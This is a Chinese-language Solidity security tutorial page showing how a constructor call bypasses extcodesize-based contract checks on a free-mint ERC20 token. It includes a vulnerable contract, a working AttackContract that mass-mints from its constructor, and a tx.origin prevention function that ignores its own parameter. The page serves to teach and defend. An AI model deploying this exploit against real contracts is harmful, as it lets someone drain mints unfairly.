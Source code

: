 ```yaml
---
title: 绕过智能合约检测
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - contract-check
  - extcodesize
  - bytecode
  - eoa
  - free-mint
  - solidity
  - constructor-exploit
  - prevention
tags:
  - Constructor
  - Security
  - 智能合约
---
```


许多免费铸造的项目使用 `isContract()` 方法限制对外部账户（EOAs）的访问以及限制智能合约的交互。 此方法使用 `extcodesize` 来决定地址运行时 `bytecode` 长度。 如果大于零，则被视为智能合约；否则，它被视为EOA。

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

然而，由于在智能合约创建期间，运行时`bytecode`尚未存储在地址上，所以`bytecode`的长度为零，所以存在潜在的漏洞。 如果我们将逻辑存放在构造器中，我们可以借此绕过`isContract()`检查。

**利用漏洞的示例**

在下面的例子中，`FreemintERC20`合同使用`checkContract()`函数来防止智能合约执行它的`mintTokens()`函数，以防止自动大量铸造。 每次调用`mintTokens()`都会铸造100个通证。

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们创建一个智能合约用于攻击，并在构造器中多次调用`mintTokens()`代码：

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

在这个智能合约中，通过调用构造函数中的`mintTokens()`方法可以绕过`isContract()`检查，并铸造通证。 状态变量 `detectedAsContract` 在构造器中将被设置为`false`。 部署后，`runtime bytecode` 存储在智能合约中，并且 `extdesize > 0` , 因此当调用 `mintTokens()`时，`checkContract()` 会成功地阻止铸造。

**预防措施**

我们可以使用 `(tx.origin == msg.sender)` 来确定调用者是否是智能合约。 如果调用者是EOA，那么`tx.origin`和`msg.sender`将是相等的；如果他们不相等，则调用者是智能合约。

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```
